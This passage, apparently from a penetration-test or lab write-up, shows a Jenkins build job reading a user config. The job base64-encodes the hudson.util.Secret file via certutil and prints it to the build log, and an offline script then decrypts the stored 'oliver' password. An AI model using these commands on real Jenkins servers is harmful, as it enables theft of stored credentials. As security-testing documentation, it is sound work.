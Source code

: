 ``` Getting the admin user config file.
      <timestamp>1634793332195</timestamp>
    </jenkins.security.LastGrantedAuthoritiesProperty>
  </properties>
</user>
C:\Users\oliver\AppData\Local\Jenkins\.jenkins\workspace\project>exit 0 
Finished: SUCCESS
```

The "hudson.util.Secret" file is not a human readable file therefore, to ensure a success transfer, the tester first encoded the file into base64 to remove any potential issues. 
``` Encoding the hudson.util.Secret file. 
Started by timer
Running as SYSTEM
Building in workspace C:\Users\oliver\AppData\Local\Jenkins\.jenkins\workspace\project
[project] $ cmd /c call C:\Users\oliver\AppData\Local\Temp\jenkins7113208533890243962.bat

C:\Users\oliver\AppData\Local\Jenkins\.jenkins\workspace\project>certutil -encode c:\Users\oliver\AppData\Local\Jenkins\.jenkins\secrets\hudson.util.Secret c:\Users\oliver\hudson.util.Secret.b64    & type c:\Users\oliver\hudson.util.Secret.b64 
Input Length = 272
Output Length = 432
CertUtil: -encode command completed successfully.
-----BEGIN CERTIFICATE-----
gWFQFlTxi+xRdwcz6KgADwG+rsOAg2e3omR3LUopDXUcTQaGCJIswWKIbqgNXAvu
2SHL93OiRbnEMeKqYe07PqnX9VWLh77Vtf+Z3jgJ7sa9v3hkJLPMWVUKqWsaMRHO
kX30Qfa73XaWhe0ShIGsqROVDA1gS50ToDgNRIEXYRQWSeJY0gZELcUFIrS+r+2L
AORHdFzxUeVfXcaalJ3HBhI+Si+pq85MKCcY3uxVpxSgnUrMB5MX4a18UrQ3iug9
GHZQN4g6iETVf3u6FBFLSTiyxJ77IVWB1xgep5P66lgfEsqgUL9miuFFBzTsAkzc
pBZeiPbwhyrhy/mCWogCddKudAJkHMqEISA3et9RIgA=
-----END CERTIFICATE-----

C:\Users\oliver\AppData\Local\Jenkins\.jenkins\workspace\project>exit 0 
Finished: SUCCESS
```

The Tester decoded the code on their machine. 

```
└─$ echo "gWFQFlTxi+xRdwcz6KgADwG+rsOAg2e3omR3LUopDXUcTQaGCJIswWKIbqgNXAvu
2SHL93OiRbnEMeKqYe07PqnX9VWLh77Vtf+Z3jgJ7sa9v3hkJLPMWVUKqWsaMRHO
kX30Qfa73XaWhe0ShIGsqROVDA1gS50ToDgNRIEXYRQWSeJY0gZELcUFIrS+r+2L
AORHdFzxUeVfXcaalJ3HBhI+Si+pq85MKCcY3uxVpxSgnUrMB5MX4a18UrQ3iug9
GHZQN4g6iETVf3u6FBFLSTiyxJ77IVWB1xgep5P66lgfEsqgUL9miuFFBzTsAkzc
pBZeiPbwhyrhy/mCWogCddKudAJkHMqEISA3et9RIgA=" | tr -d "\n" | base64 -d > hudson.util.Secret

```
Once all the needed files were collected the tester used the script to decrypt the "oliver" account password. 

```
└─$ python3 '/home/kali/Documents/Tools/jenkins/jenkins_offline_decrypt.py' '/home/kali/Documents/object/master.key' '/home/kali/Documents/object/hudson.util.Secret' '/home/kali/Documents/object/cred.xml' 
c1cdfun_d2434
```
